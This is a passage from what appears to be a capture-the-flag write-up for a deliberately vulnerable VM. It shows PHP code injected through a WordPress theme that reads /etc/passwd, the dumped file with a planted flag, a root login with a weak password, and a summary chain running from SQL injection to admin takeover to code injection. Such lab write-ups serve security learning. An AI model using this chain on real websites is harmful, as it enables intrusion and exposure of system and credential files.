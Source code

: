     :::php
     <?php
    $myfile = fopen("/etc/passwd", "r") or die("Unable to open file!");
    echo fread($myfile,filesize("/etc/passwd"));
    fclose($myfile);
    ?>

When we reload the index page we got the `/etc/password` file in the footer:

    :::text
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    libuuid:x:100:101::/var/lib/libuuid:
    syslog:x:101:104::/home/syslog:/bin/false
    messagebus:x:102:105::/var/run/dbus:/bin/false
    user:x:1000:1000:user,,,:/home/user:/bin/bash
    mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
    candycane:x:1001:1001::/home/candycane:
    # YOU STOLE MY SECRET FILE!
    # SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"

Wut? We already got the flag!
No need to root the system… sadly.

As there is not ssh port open, I tried to log on the VM with
`root:SuperSecretPassword` and it simply worked.

# Summary

This was a simple challenge, based on web pentesting.
It was a bit short but nonetheless interesting.

Road to flag:

  * SQL injection on the `/login.php` interface
  * Get the wordpress admin password
  * As wordpress admin inject PHP code in the web site (via the theme)
  * Display `/etc/passwd`

Flag : **"NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"**
